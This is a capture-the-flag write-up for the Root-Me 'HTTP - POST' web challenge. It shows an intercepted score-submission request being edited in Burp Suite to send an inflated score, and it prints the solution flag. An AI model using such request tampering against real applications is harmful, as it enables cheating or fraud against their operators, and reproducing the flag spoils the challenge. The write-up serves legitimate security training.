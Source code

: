 # HTTP - POST

> Find a way to beat the top score!

<figure><img src="../../.gitbook/assets/1 (99).png" alt=""><figcaption></figcaption></figure>

Let's intercept the request using Burpsuite.

<figure><img src="../../.gitbook/assets/2 (93).png" alt=""><figcaption></figcaption></figure>

We can see that the score is `723546`.

Let's send the request to the `Repeater` and set the `score` to a number than `999999`.

## HTTP Request

```
POST /web-serveur/ch56/ HTTP/1.1
Host: challenge01.root-me.org
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/118.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: http://challenge01.root-me.org/web-serveur/ch56/
Content-Type: application/x-www-form-urlencoded
Content-Length: 36
Origin: http://challenge01.root-me.org
DNT: 1
Connection: close
Cookie: _ga_SRYSKX09J7=GS1.1.1697428943.14.1.1697429312.0.0.0; _ga=GA1.1.1863804672.1697290591
Upgrade-Insecure-Requests: 1
Sec-GPC: 1

score=9999999&generate=Give+a+try%21
```

Finally, we have to send this modified request to the server.

<figure><img src="../../.gitbook/assets/3 (81).png" alt=""><figcaption></figcaption></figure>

## Flag

```
H7tp_h4s_N0_s3Cr37S_F0r_y0U
```
